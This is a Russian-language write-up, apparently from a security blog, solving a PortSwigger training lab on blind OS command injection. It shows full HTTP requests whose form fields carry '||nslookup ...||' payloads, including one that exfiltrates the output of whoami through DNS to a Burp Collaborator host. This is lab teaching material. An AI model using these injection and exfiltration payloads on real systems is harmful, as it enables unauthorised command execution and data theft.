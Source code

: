 ```yaml
---
title: "Blind OS command injection with out-of-band data exfiltration"
date: 2025-06-26
tags: [os_command_injection, writeup, web]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration"
classes: wide
---
```


В лабе содержится уязвимость **Blind OS command injection**. Для решения необходимо отправить `DNS` запрос с сервера вместе именем пользователя.

```
https://0aae003e031cb93880ae5d9d008100bc.web-security-academy.net/
```

## Solution

Сразу перейду в форму обратной связи. Соберу запрос:

```http
POST /feedback/submit HTTP/2
Host: 0aae003e031cb93880ae5d9d008100bc.web-security-academy.net
Cookie: session=OSjLp57PhGSMTSemnKy4JtXDeog1gR8u
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aae003e031cb93880ae5d9d008100bc.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 101
Origin: https://0aae003e031cb93880ae5d9d008100bc.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=1g17hIQQqURqEiesGEX4tbFKF9PrfsjW&name=name&email=mail%40mail.com&subject=subject&message=message
```

Из задачи ясно, что нужно отправлять `DNS` запросы. Поэтому буду использовать `nslookup q1seln9s2o9zzv3pfboqrt8wdnjf75vu.oastify.com`. Мне в голову пришла идея, что я могу подставить разные поддомены для полей и посмотреть, что из них сработает:

```http
POST /feedback/submit HTTP/2
Host: 0aae003e031cb93880ae5d9d008100bc.web-security-academy.net
Cookie: session=OSjLp57PhGSMTSemnKy4JtXDeog1gR8u
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aae003e031cb93880ae5d9d008100bc.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 355
Origin: https://0aae003e031cb93880ae5d9d008100bc.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=1g17hIQQqURqEiesGEX4tbFKF9PrfsjW&name=name||nslookup name.q1seln9s2o9zzv3pfboqrt8wdnjf75vu.oastify.com||&email=mail%40mail.com||nslookup mail.q1seln9s2o9zzv3pfboqrt8wdnjf75vu.oastify.com||&subject=subject||nslookup subject.q1seln9s2o9zzv3pfboqrt8wdnjf75vu.oastify.com||&message=message||nslookup message.q1seln9s2o9zzv3pfboqrt8wdnjf75vu.oastify.com||
```

Получил ошибку:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 33

"Name must be length 64 or less."
```

Вероятно поле `name` мне не подходит, уберу из него пейлоада:

```http
POST /feedback/submit HTTP/2
Host: 0aae003e031cb93880ae5d9d008100bc.web-security-academy.net
Cookie: session=OSjLp57PhGSMTSemnKy4JtXDeog1gR8u
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aae003e031cb93880ae5d9d008100bc.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 293
Origin: https://0aae003e031cb93880ae5d9d008100bc.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=1g17hIQQqURqEiesGEX4tbFKF9PrfsjW&name=name&email=mail%40mail.com||nslookup mail.q1seln9s2o9zzv3pfboqrt8wdnjf75vu.oastify.com||&subject=subject||nslookup subject.q1seln9s2o9zzv3pfboqrt8wdnjf75vu.oastify.com||&message=message||nslookup message.q1seln9s2o9zzv3pfboqrt8wdnjf75vu.oastify.com||
```

Получил следующие запросы:

![IMG](/assets/images/IMG_os_command_injection/IMG_Blind_OS_command_injection_with_out-of-band_data_exfiltration/1.png){: height="200" .align-center}

Они пришли на поддомен `mail`, значит именно это поле является уязвимым. Попробую выполнить нужную команду `whoami` с помощью следующего пейлоада:

```
||nslookup `whoami`.q1seln9s2o9zzv3pfboqrt8wdnjf75vu.oastify.com||
```

```http
POST /feedback/submit HTTP/2
Host: 0aae003e031cb93880ae5d9d008100bc.web-security-academy.net
Cookie: session=OSjLp57PhGSMTSemnKy4JtXDeog1gR8u
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aae003e031cb93880ae5d9d008100bc.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 167
Origin: https://0aae003e031cb93880ae5d9d008100bc.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=1g17hIQQqURqEiesGEX4tbFKF9PrfsjW&name=name&email=mail%40mail.com||nslookup `whoami`.q1seln9s2o9zzv3pfboqrt8wdnjf75vu.oastify.com||&subject=subject&message=message
```

![IMG](/assets/images/IMG_os_command_injection/IMG_Blind_OS_command_injection_with_out-of-band_data_exfiltration/2.png){: height="200" .align-center}

А вот и имя пользователя:

```
peter-fjORpg
```

Попробую сдать его:

![IMG](/assets/images/IMG_os_command_injection/IMG_Blind_OS_command_injection_with_out-of-band_data_exfiltration/3.png){: height="200" .align-center}

Лаба решена)